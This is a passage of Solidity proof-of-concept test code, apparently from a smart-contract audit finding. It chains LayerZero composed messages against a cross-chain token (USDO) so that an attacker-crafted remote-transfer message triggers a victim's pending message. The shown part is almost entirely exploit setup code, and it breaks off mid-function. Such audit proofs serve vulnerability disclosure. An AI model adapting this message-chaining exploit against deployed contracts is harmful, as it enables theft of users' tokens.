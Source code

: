 ```solidity
        );
 
        // SECOND MESSAGE (composed)     B ---> A      
        // This second message is a necessary step in order to reach the execution
        // inside `_lzCompose()` where the nextMsg can be triggered

        SendParam memory sendParamBToA = SendParam({
            dstEid: aEid,
            to: OFTMsgCodec.addressToBytes32(address(aUsdo)),
            amountLD: 0, 
            minAmountLD: 0,
            extraOptions: bytes(""),
            composeMsg: bytes(""),
            oftCmd: bytes("")
        });  
        MessagingFee memory feeBToA = MessagingFee({
            nativeFee: 0,
            lzTokenFee: 0
        });
        
        LZSendParam memory lzSendParamBToA = LZSendParam({
            sendParam: sendParamBToA,
            fee: feeBToA,
            extraOptions: bytes(""),
            refundAddress: makeAddr("attacker")
        });

        // Create remote transfer message
        RemoteTransferMsg memory remoteTransferMsg = RemoteTransferMsg({
            owner: makeAddr("attacker"),
            composeMsg: bytes(""),
            lzSendParam: lzSendParamBToA
        });

        // Create Toe Compose message
        bytes memory toeComposeMsg = abi.encodePacked(
            PT_REMOTE_TRANSFER, // msgType
            uint16(abi.encode(remoteTransferMsg).length), // message length
            index, // index
            abi.encode(remoteTransferMsg),
            toeComposeMsgVictim // next message: IMPORTANT to set this to the A --> B message that will be triggered as the `nextMsg`
        );
         
        // INITIAL MESSAGE       A ---> B                      

        // Create `_lzSendParam` parameter for `sendPacket()`
        SendParam memory sendParamAToB = SendParam({
            dstEid: bEid,
            to: OFTMsgCodec.addressToBytes32(makeAddr("attacker")), // address here doesn't matter
            amountLD: 0,
            minAmountLD: 0,
            extraOptions: bytes(""),
            composeMsg: bytes(""),
            oftCmd: bytes("")
        });  
        MessagingFee memory feeAToB = MessagingFee({
            nativeFee: 0,
            lzTokenFee: 0
        });
        
        LZSendParam memory lzSendParamAToB = LZSendParam({
            sendParam: sendParamAToB,
```